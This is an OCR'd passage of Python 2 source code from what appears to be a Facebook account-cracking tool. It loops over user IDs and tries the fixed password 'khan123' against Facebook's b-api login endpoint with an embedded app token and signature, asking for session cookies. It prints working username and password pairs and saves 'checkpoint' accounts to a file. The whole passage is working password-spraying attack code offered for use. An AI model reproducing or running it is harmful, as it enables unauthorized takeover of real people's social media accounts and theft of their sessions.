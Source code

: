 	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)

	print

	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z')

	print 42*"\033[1;96m="

	

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = ('khan123')

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1

					cek = open("out/checkpoint.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()
